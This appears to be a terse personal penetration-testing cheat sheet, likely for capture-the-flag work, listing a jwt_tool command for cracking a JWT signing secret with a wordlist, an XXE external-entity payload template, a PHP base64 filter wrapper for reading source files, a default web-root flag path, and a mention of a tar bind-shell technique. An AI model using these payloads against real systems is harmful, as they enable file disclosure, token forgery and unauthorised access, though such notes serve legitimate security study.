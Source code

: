 # pen-tester handbook
# python3 jwt_tool.py -t URL -rc TOKEN -C -d WORDLIST


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "command">
]>
<foo> &xxe; </foo>



# template of php filters: 
php://filter/convert.base64-encode/resource= RES
# default path to web folder
/var/www/html/flag



github tar command Bind shell (gtfobins)
